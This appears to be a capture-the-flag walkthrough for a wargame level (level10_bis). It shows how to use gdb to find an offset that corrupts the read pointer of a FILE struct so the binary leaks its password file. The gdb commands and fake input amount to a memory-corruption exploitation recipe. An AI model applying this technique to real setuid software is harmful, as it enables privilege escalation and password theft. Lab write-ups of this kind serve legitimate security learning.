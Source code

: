 # Walkthrough

I recompiled level10_bis.c but due to difference with the process executing in gdb I couldn't resolve the channel this way.
Since I'm a lazy fuck I copied the executable into /tmp/ directly and modified the hardoded string ```/levels/level10_bis.pass``` into ```/tmp/l10/level10_bb.pass``` inside vim:

My fake password file:
```bash
level10@io:/tmp/l10$ cat /tmp/l10/level10_bb.pass
01234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789PASSSPASSSSPASSSSPASSSSERRRRRRRRRRRRRRRRORRRRRRRRRRRRRRRRRRRRRRRRRRRRR
```

The idea is to overwrite the last byte of the read_ptr inside the IO_FILE struct so it goes back and read the pass.

Now all I have to do is 
```
(gdb) unset env LINES
(gdb) un set env COLUMNS // just in case?
(gdb) br *(address of the first instruction after fopen)
(gdb) set $byte=$eax
(gdb) br *(address at mov    BYTE PTR [ebp+eax*1-0x1c0],0x0 instruction)
(gdb) set $offset = $byte-$ebp-0x1c0
(gdb) p/d $offset	// the magic number
(gdb) r magic_number
```

Let's get out of gdb:

```
level10@io:/tmp/l10$ /levels/level10_bis magic_number
Welcome challengers
lengers
Welcome challengers
Welcome challengers
THE_PASSWORD_YEAH.
ACCESS DENIED...

level10@io:/tmp/l10$ ./executable THE_PASSWORD_YEAH.
```

Tip: escape the "!!" with printf "\x21\x21" unless you want some weird history stuff to popup	